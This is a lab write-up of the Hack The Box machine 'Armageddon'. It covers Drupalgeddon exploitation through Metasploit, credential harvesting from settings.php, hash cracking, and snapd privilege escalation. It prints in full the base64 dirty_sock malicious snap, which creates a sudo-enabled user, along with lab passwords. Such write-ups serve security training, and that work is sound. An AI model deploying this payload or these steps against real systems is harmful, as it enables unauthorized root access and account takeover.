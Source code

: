 # Writeup for [Armageddon](https://www.hackthebox.eu/home/machines/profile/323) from [Hack The Box](https://www.hackthebox.eu/)

## Table of Contents

<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
	- [Apache User to Brucetherealadmin User](#apache-user-to-brucetherealadmin-user)
	- [Brucetherealadmin User to Root User](#brucetherealadmin-user-to-root-user)

<!-- /MarkdownTOC -->


## Machine Information
* OS 			: Linux
* Difficulty 	: Easy
* Points 		: 20
* Release 		: 27 Mar 2021
* IP Address 	: 10.10.10.233

## Information Gathering and Enumeration

As usual, we're going to start with a simple nmap scan to enumerate services running on the box.

```bash
nmap -sCV -oN nmap/initial 10.10.10.233
```

We see from nmap that `SSH` and `HTTP` is running on the box.

![nmap-results](./img/nmap-results.png)

We can also see that nmap tells us that the webserver is running `Drupal 7` which is a CMS ( Content Management System ) much like `WordPress`. It also tells us that the box is running `CentOS`.

Navigating to the webserver, we found nothing much of interest. We do see a login form which we can try to guess some credentials like `admin:admin` or `admin:password`, but those doesn't seem to work.

Going back to our nmap scan, we see a `robots.txt` with a lot of content. So let's navigate to that file.

Going near the bottom of the file, we see a `CHANGELOG.txt` file. This file will most likely contain version information for `Drupal`. If we know the version of the software, we can potentially find a public exploit for it.

![robots](./img/robots.png) 

![changelog](./img/changelog.png)

We see a version number and a date, so let's try to take a look at `searchsploit`.

## Exploitation

```bash
searchsploit drupal
```
We see a bunch of output, but the one that caught my eye was `Drupalgeddon`. Just like the name of this box `Armageddon`, we can assume that this exploit might be the foothold.

![](./img/searchsploit.png)

At first I tried to use the `POC` exploit on `Drupalgeddon2` since I wanted to avoid using metasploit, but the script spat out a huge error message and I was just to lazy to debug it. So let's start up metasploit.

Make sure to use the correct options and when we execute, we should get a meterpreter session on the box.

![metasploit](./img/metasploit.png)

## Privilege Escalation

### Apache User to Brucetherealadmin User

After landing on the meterpreter session, we see a `.gitignore` in the directory.

![gitignore](./img/gitignore.png)

Reading the file, we get some juicy info, `sites/*/settings*.php` might contain some sensitive information. So let's start hunting for the file.

![content-gitignore](./img/content-gitignore.png)

Following the path of the `.gitignore` file, we can `cd` into the `sites` directory and traverse to the `default` directory. Here we can see a `settings.php` file.

![settings-php](./img/settings-php.png)

Reading the file with `nvim` and searching for the phrase `password` in the `settings.php` file, we get some credentials for `mysql`.

![db-creds](./img/db-creds.png)

Let's get back to our meterpreter session and drop in to a regular shell, and login to `mysql`.

Trying to get an interactive shell with python spits out an error, so we're just gonna have to live with a simple `bash -i`.

Since this shell is not a full `tty` session, it won't spit out mysql output. But when we give it a syntax error, it magically spits out the output. Well good enough I guess.

![no-interactive.png](./img/no-interactive.png)

We see a `drupal` database with a `users` table.

```bash
bash-4.2$ mysql -u drupaluser -p
mysql -u drupaluser -p
Enter password: CQHEy@9M*m23gBVj
use drupal;
show tables;
show;
ERROR 1064 (42000) at line 3: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
Tables_in_drupal
...[snipped]...
users
...[snipped]...
```
Don't forget that after the valid SQL syntax, we need to put a syntax error so that it spits out the output of the valid syntax. I use `show;`.

![user-hash](./img/user-hash.png)

Now that we got a hash, let's try to crack it with `John The Ripper`.

```bash
john hash --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
Give it a minute and we should get the password `booboo`.
![user-pass](./img/user-pass.png)

Since we know that `SSH` is open on this box from nmap, let's try to SSH in using this user's credentials.

![user-shell](./img/user-shell.png)

### Brucetherealadmin User to Root User

As usual, let's start with some low hanging fruit. I'm going to check for `sudo` privileges with `sudo -l`.

![sudo](./img/sudo.png)

It appears we can run snap install as `root` without a password. Googling around for a bit, I found [this](https://github.com/initstring/dirty_sock) github repo about a privesc via `snapd`.

Running `snap version` on the box returns us a version number greater than the said vulnerable version which is `2.37`. But we'll try anyways.

After trying to run both scripts without success on the box, I tried looking at the forums for hints and assummed that maybe we have to do this exploit manually. So I went back to the github repo and read the blog post that is mentioned.

After reading the [blog post](https://initblog.com/2019/dirty-sock/) ( **HIGHLY RECOMMEND TO READ** ), I had a rough understanding of the exploit and tried to do it manually. First I used the exact same `TROJAN_SNAP` variable from the exploit script, converted it from base64 and put it in a file called `exploit;uid=0.snap`.

I added the string `;uid=0` to the filename just in case that the exploit needed it.
> After some testing, it is not needed to add the `;uid=0` string to the filename.

**NOTE: if the exploit is not working, try to reset the box and try again.**

I simply did this in an interactive python shell on the box.

```python
>>>TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')

>>> with open('b64.snap','w') as f:
	f.write(TROJAN_SNAP)
>>>exit()
```
Then did the base64 conversion in the shell
```bash
cat b64.snap | base64 -d > 'exploit;uid=0.snap' 
```


Then I ran `sudo snap install --devmode 'exploit;uid=0.snap'`, after it's finished I ran `su dirty_sock` and was able to login with the password `dirty_sock`.

![dirty_sock.png](./img/dirty_sock.png) 

Since the exploit created a user with sudo privileges, we can just run `sudo -s`, and we should get a root shell.

![root](./img/root.png)